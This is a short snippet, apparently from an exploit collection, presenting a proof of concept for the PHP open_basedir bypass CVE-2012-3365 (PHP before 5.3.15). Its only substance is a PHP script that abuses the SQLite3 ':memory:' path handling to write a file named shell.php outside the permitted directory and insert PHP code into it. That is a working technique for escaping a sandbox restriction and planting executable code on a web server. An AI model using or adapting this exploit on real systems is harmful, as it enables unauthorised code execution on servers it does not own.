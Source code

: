 ### PHP open_basedir bypass
#### CVE-2012-3365
Versions Affected: < 5.3.15

```
<?php 
mkdir(':memory:'); 
$database = new SQLite3(":memory:/../../shell.php"); 
$database->exec("CREATE TABLE foo (bar STRING)"); 
$database->exec("INSERT INTO foo (bar) VALUES ('<?php phpinfo(); ?>')"); 
$database->close(); 
rmdir(':memory:'); 
?>
```